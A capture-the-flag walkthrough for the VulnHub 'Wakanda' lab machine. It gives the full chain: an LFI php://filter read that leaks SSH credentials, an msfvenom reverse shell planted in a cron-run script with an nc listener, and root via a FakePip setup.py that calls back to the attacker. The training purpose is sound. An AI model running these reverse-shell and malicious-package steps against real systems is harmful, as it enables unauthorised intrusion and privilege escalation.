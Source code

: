 # VulnHub Walkthrough: 🐈‍⬛ Wakanda

## **Flag 1**

1. Scan Network/IP
     * `netdiscover -r <Kali IP>`
     * `nmap -p0-65535 <WaKanda IP>`
      * Ports open: *SSH* & *HTTP*

2. On your Kali machine, map WaKanda's IP to a domain to make things easier:
     * `nano /etc/hosts` then add the following line `wakanda.local <wakanda IP>`

3. Next look through `http://wakanda.local`:
     * *http://wakanda.local/?lang=fr* --> */?lang=php://filter/convert.base64-encode/resource=index*
     * Use base64 decode tool (online/burpsuite/terminal) to decode
     * User: ***mamadou*** | Password: ***Niamey4Ever227!!!***

4. Generate msfvenom payload to generate a shell (for flag 2):
     `msfvenom -p cmd/unix/reverse_python lhost=<Kali IP> lport=<any port> R`

5. Login via SSH:
     * `ssh mamadou@wakanda.local -p 3333` --> yes --> enter: *Niamey4Ever227!!!*
     * Create bash script: `import pty; pty.spawn('/bin/bash')`
     * `cat flag1.txt`


## **Flag 2**

1. On SSH:
     * `cd /srv`
     * `ls -a`
     * `nano .antivirus.py` --> '#" old exec --> then insert msfvenom payload

2. On Kali
     * `nc -nlvp <lport>` --> wait patiently
     * Once it connects: `id` & `bash -i`

3. Congrats, you're now (user) *devops*:
     * `cd /home` --> `ls` --> `cd /devops` --> `cat flag2.txt`


## **Flag 3**

1. On Kali:
     * `git clone https://github.com/0x00-0x00/FakePip.git`
     * `cd FakePip`
     * `nano setup.py` --> change `RHOST=<Kali IP>`, also notice `lport=443`
     * Create python server so we can wget/curl a file (*setup.py*) from Kali machine from within  the Wakanda machine `python -m SimpleHTTPServer 80`

2. On devops:
     * Fetch setup file from Kali: `wget http://<Kali IP>:<Port (80)>/setup.py`
     * `sudo pip install . --upgrade --force-reinstall`

3. On Kali:
     * `nc -lvp <lport (443)>`
     * Once it connects: `cd /root` --> `ls` --> `cat root.txt`
